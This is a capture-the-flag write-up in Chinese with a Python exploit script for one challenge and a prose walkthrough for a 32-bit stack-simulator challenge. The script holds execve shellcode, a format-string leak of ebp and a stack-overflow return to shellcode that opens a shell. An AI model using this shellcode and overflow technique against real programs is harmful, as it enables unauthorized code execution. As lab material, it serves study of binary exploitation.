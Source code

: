 ```python pwn2.py
shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

shellcode = ''.join( chr(c) for c in shellcode_byte)


if __name__ == "__main__":

	echo_start = 0x08048540

	# leak ebp
	payload = "%p."*3
	payload = payload.ljust(20, "A")
	payload += p32(echo_start)
	r.sendline(payload)
	
	# calculate buffer address
	resp = r.recv(1024).split(".")[2]
	ret_addr = int(resp, 16) - 0x30 + 28

	# return to shellcode
	payload = "A"*20
	payload += p32(ret_addr)
	payload += "\x90"*10 + shellcode
	r.sendline(payload)
	r.interactive()

```


## PWN3D3
32 bit ELF, 一樣沒開 DEP

這是一個簡單的模擬 stack 的程式
功能有 push, pop, show, exit
push 的話會要你先輸入一個 integer
之後程式會把這個 integer 放在 stack 上面
可以透過 show 功能去查看 stack 目前長什麼樣子
pop 的話會把 stack 上面的一個數字 pop 出來
exit 則是離開程式

透過一些 fuzzing
我們可以發現當 stack 上面沒東西的時候
利用 pop 功能可以 leak 出一些 address，包括 ebp
因此我們可以利用這個功能來計算當前 stack 的位置以及我們 input buffer 的 address
至於 push 功能，我們會發現說如果我們一直 push 東西進 stack 的話
最後會發生 stack overflow, 覆蓋到 return address
加上沒開 DEP 的關係，因此思路跟 PWN3D2 很像
先利用 pop 功能 leak 出 ebp 並算出 buffer 的 address
之後利用 push 功能觸發 buffer overflow 並 return to shellcode 拿 shell

要注意的是它 stack 上面會存有一個 address
是 exit 時拿來計算 esp 用的
因此這個 address 要小心不要被修改到
還有就是因為這題在蓋的時候是用 integer 在蓋
因此 payload 都要轉成 integer 的形式 (注意要是 int32 )
